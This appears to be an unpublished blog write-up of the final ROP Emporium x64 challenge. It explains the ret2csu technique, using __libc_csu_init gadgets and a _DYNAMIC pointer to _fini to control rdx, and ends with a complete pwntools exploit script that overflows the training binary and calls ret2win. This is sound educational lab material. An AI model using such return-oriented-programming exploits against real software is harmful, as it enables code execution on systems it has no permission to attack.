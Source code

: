 ```yaml
---
title: ROP x64 Challenge 8
layout: post
permalink: /ROP_emporium/2022-07-13-ROP-x64-Challenge-8
status: in progress
type: post
published: false
comments: true
date: 2022-07-13
---
```

## Challenge 8

And we've reached the end of the road with these challenges and have just one more to do. The task is pretty simple, like before there is a ret2win function in the attached library and we have to call it with specific arguments, `ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)` to be exact. 

So we remember the registers for arguments go rdi, rsi, and rdx for 1st, 2nd, and 3rd arguments to a function respectively. 

Opening up the binary, we can see that the ret2win function is in the plt, so we don't have to worry about getting offsets to it or anything.

```
pwndbg> plt
0x400500: pwnme@plt
0x400510: ret2win@plt
```

We also see that we can easily control rsi and rdi.

```
pwndbg> ropper -- --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /root/working/ret2csu/ret2csu_64/ret2csu
0x00000000004006a3: pop rdi; ret; 

pwndbg> ropper -- --search "pop rsi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rsi

[INFO] File: /root/working/ret2csu/ret2csu_64/ret2csu
0x00000000004006a1: pop rsi; pop r15; ret; 
```

However, we can not find any gadgets that affect rdx in the binary. I spent a lot of time here trying to figure this out and got no where, so I ended up reading the paper linked in the challenge: [BlackHat Asia paper](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf) and [this article](https://www.voidsecurity.in/2013/07/some-gadget-sequence-for-x8664-rop.html) by voidsecurity. 

The idea is that automatid tools like ropper don't find every possible gadget and if you know what you are doing you can find gadgets in the boiler plate code that gcc adds to every binary. If you can find useful gadgets in the boilerplate, those gadgets should be in every binary and hence universal.

The boilerplate code we are using for this challenge is the \_\_libc_csu_init function. Which is as follows:

```
   0x0000000000400640 <+0>:     push   r15
   0x0000000000400642 <+2>:     push   r14
   0x0000000000400644 <+4>:     mov    r15,rdx
   0x0000000000400647 <+7>:     push   r13
   0x0000000000400649 <+9>:     push   r12
   0x000000000040064b <+11>:    lea    r12,[rip+0x20079e]        # 0x600df0
   0x0000000000400652 <+18>:    push   rbp
   0x0000000000400653 <+19>:    lea    rbp,[rip+0x20079e]        # 0x600df8
   0x000000000040065a <+26>:    push   rbx
   0x000000000040065b <+27>:    mov    r13d,edi
   0x000000000040065e <+30>:    mov    r14,rsi
   0x0000000000400661 <+33>:    sub    rbp,r12
   0x0000000000400664 <+36>:    sub    rsp,0x8
   0x0000000000400668 <+40>:    sar    rbp,0x3
   0x000000000040066c <+44>:    call   0x4004d0 <_init>
   0x0000000000400671 <+49>:    test   rbp,rbp
   0x0000000000400674 <+52>:    je     0x400696 <__libc_csu_init+86>
   0x0000000000400676 <+54>:    xor    ebx,ebx
   0x0000000000400678 <+56>:    nop    DWORD PTR [rax+rax*1+0x0]
   0x0000000000400680 <+64>:    mov    rdx,r15
   0x0000000000400683 <+67>:    mov    rsi,r14
   0x0000000000400686 <+70>:    mov    edi,r13d
   0x0000000000400689 <+73>:    call   QWORD PTR [r12+rbx*8]
   0x000000000040068d <+77>:    add    rbx,0x1
   0x0000000000400691 <+81>:    cmp    rbp,rbx
   0x0000000000400694 <+84>:    jne    0x400680 <__libc_csu_init+64>
   0x0000000000400696 <+86>:    add    rsp,0x8
   0x000000000040069a <+90>:    pop    rbx
   0x000000000040069b <+91>:    pop    rbp
   0x000000000040069c <+92>:    pop    r12
   0x000000000040069e <+94>:    pop    r13
   0x00000000004006a0 <+96>:    pop    r14
   0x00000000004006a2 <+98>:    pop    r15
   0x00000000004006a4 <+100>:   ret   
```


We see in this function that line 64 sets the rdx redgister to r15 and on line 98 we can control r15 with the pop instruction right before the ret. The problem is that on line 73, there is a relitive call to the function pointed to by \[r12+rbx\*8\]. Now we control r12 (see line 92) and rbp, however that call is double de refrenced. So the execution will continue to happen at \[r12+rbx\*8\] -> address -> start_of_call. So we have to find a do nothing function, which has a function pointer pointing to it somewhere in memory. 

So let's start up the program and break in gdb right before our exploit starts and see if we can find any function pointers to use. In the second article I referenced, I noticed this line, "In \_DYNAMIC variable ie. .dynamic section of executable we can find pointers to \_init and \_fini section." So let's print off the values in dynamic right now.


```
pwndbg> x/30gx &_DYNAMIC 
...
0x600e30:       0x000000000000000c      0x00000000004004d0
0x600e40:       0x000000000000000d      0x00000000004006b4
0x600e50:       0x0000000000000019      0x0000000000600df0
...
```

A couple of those values look familarish. The 400 values are the range of the plt (which we can call, so pointers to functions) and the 600 is around the got (which are pointers to functions). So now we just got to figure out which functions these are.

looking at 0x4004d0 we see
```
pwndbg> tele 0x4006b4 20
00:0000│  0x4006b4 (_fini) ◂— sub    rsp, 8
01:0008│  0x4006bc (_fini+8) ◂— ret    
```
which is basically a do nothing functions which we can call. So if we look at the rest of the function all we have to do is get past the jne on line 84 which is easy enough because we have control over all the registers used in the compare.

   0x0000000000400691 <+81>:    cmp    rbp,rbx
   0x0000000000400694 <+84>:    jne    0x400680 <\_\_libc_csu_init+64>

So now we have everything we need to make the payload.

Note, I'll be using gadgets from the csu init function with just gadget $line_num for notation

```
         | stack          |
         | -------------- | 
32 bytes | start buffer   |
8  bytes | base pointer   | # fill the buffer and base pointer
8  bytes | gadget 90      | # pop everything off rbx, rbp, r12-15      
8  bytes | 0x1            | # rbx value                                         
8  bytes | 0x2            | # rbp value must be 1 more then rbx for the cmp and jump               
8  bytes | addr in dynm   | # r12 the address in dynamic pointing to func pointer to csu_fini
8  bytes | 0xdeadbeef...  | # r13 mapped to edi                                   
8  bytes | 0xcafebabe...  | # r14 mapped to rsi                               
8  bytes | 0xd00df00d     | # r15 mapped to rdx                       
8  bytes | gadget 64      | # the gadget for placing rdx and going through the call
8  bytes | random junk    | # stack pointer is add/sub to 
8  bytes | 0x1            | # we have to redo all the pops to finish out the function
8  bytes | 0x2            |                
8  bytes | addr in dynm   | 
8  bytes | 0xdeadbeef...  |                                   
8  bytes | 0xcafebabe...  |                                
8  bytes | 0xd00df00d     |                       
8  bytes | pop rdi        | # replace the changed rdi value
8  bytes | 0xdeadbeef...  | 
8  bytes | ret2win        | # all values have been placed so we can call ret2win
8  bytes | -------------- |

```


```Python
#!/usr/bin/python3

from pwn import *


write_loc 	= 0x601029
print_file 	= p64(0x400620)
target		= "./ret2csu"
back_junk 	= b"B" * 20
# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xc0deba5e)*2


"""
Place a string (1st arg) into the location
given by the 2nd arg. Note the 2nd arg should be 
packed
"""
import binascii
def print_payload(payload):
	for i in range(0, len(payload), 8):
		continue
		print(binascii.hexlify(payload[i:i+8]))

io = process(target)
first_out = io.clean(0.5).decode("utf-8")
print(first_out)
payload = junk + new_bp
payload += p64(0x0040069a)		# pop everything
payload += p64(0x1)			# rbx val *8 for call
payload += p64(0x2)			# rbp must be 1 more then rbx
payload += p64(0x600e48-8)		# Base of the call, do nothing ptr in dynamic
payload += p64(0xdeadbeefdeadbeef)	# edi through r13
payload += p64(0xcafebabecafebabe)	# rsi through r14
payload += p64(0xd00df00dd00df00d)	# rdx through r15
payload += p64(0x0400680)		# ret call to ptr call


payload += p64(0x0123456789abcdef)	# random junk skipped over
# we have to go through all of the pops again from gaget 1

payload += p64(0x1)			# rbx val *8 for call
payload += p64(0x2)			# rbp must be 1 more then rbx
payload += p64(0x600e48-8)		# Base of the call, do nothing ptr in dynamic
payload += p64(0xdeadbeefdeadbeef)	# edi through r13
payload += p64(0xcafebabecafebabe)	# rsi through r14
payload += p64(0xd00df00dd00df00d)	# rdx through r15


payload += p64(0x04006a3)		# pop edi address
payload += p64(0xdeadbeefdeadbeef)	# edi value

payload += p64(0x400510)		# the ret2win addr

# print("The payload is:")
# print(payload)
print("Payload size is:" + str(len(payload)))

input("Hit enter to apptempt exploit")



print(io.clean(0.5).decode("utf-8"))

input("exploit sent hit enter to end")
io.send(payload)


print(io.clean(0.5).decode("utf-8"))


sleep(1)


f = open('./payload', 'wb')
f.write(payload)
f.close()

```
